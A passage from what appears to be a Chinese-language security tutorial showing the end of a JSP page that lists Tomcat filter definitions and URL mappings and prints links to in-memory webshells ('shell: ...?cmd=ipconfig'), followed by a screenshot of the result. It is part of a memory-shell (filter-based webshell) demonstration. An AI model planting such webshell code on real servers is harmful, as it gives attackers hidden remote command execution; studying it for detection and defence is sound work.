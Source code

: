 ```bash
                String filtername = filterConfig.getFilterName();
                FilterDef filterdef = standardContext.findFilterDef(filtername);
                if (filterdef != null) {
                    FilterMap[] filterMaps = standardContext.findFilterMaps();
                    for (FilterMap filtermap : filterMaps) {
                        if (filtermap.getFilterName().equals(filtername)) {
                            String[] urlPatterns = filtermap.getURLPatterns();
                            allUrlPatterns.add(urlPatterns); // 将当前迭代的urlPatterns添加到列表中

                            out.println("<tr><td>" + filtername + "</td>");
                            out.println("<td>" + String.join(", ", urlPatterns) + "</td></tr>");
                        }
                    }
                }
            }
        }
        out.println("</table>");
        for (String[] urlPatterns : allUrlPatterns) {
            for (String pattern : urlPatterns) {
                if (!pattern.equals("/*")) {
                    out.println("[+]&nbsp;&nbsp;&nbsp;&nbsp;shell: http://localhost:8080/test" + pattern + "?cmd=ipconfig<br>");
                }
            }
        }
    }
%>
<%!
    private String getRandomString() {
        String characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ";
        StringBuilder randomString = new StringBuilder();
        for (int i = 0; i < 8; i++) {
            int index = (int) (Math.random() * characters.length());
            randomString.append(characters.charAt(index));
        }
        return randomString.toString();
    }
%>
```

效果如下：

[![](assets/1708482732-06aeaec147024bce1ca104e26a63aa39.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003459-550d8636-c832-1.jpeg)
